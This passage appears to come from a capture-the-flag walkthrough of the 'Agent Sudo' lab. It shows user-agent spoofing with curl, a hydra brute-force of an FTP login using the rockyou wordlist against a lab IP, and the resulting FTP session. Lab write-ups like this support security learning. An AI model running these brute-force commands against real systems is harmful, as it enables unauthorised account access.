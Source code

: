 ~~~~~~~~~~~
	<title>Annoucement</title>
</head>

<body>
<p>
	Dear agents,
	<br><br>
	Use your own <b>codename</b> as user-agent to access the site.
	<br><br>
	From,<br>
	Agent R
</p>
</body>
</html>


~~~~~~~~~~~~~~

Following the redirect with the curl command - 

`curl -A "C" http://10.10.110.68/ -L`

~~~~~~~
Note: -L flag to follow redirect
~~~~~~~~~

Output -

![[Agent-Sudo-Img-2.png]]

We find the agent name.

The hint suggests that the password is weak - Possible brute forcing


Hash Cracking and Brute force
-------------------------------------------------------------------------

Brute forcing FTP login for user

`hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.110.68 ftp  `

Output - 

![[Agent-Sudo-Img-3.png]]


FTP into the user - 

~~~~~~~~~~~~~~~~~~~
Connected to 10.10.110.68.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||43343|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png


~~~~~~~~~~~~~~~~~~~~~~~~
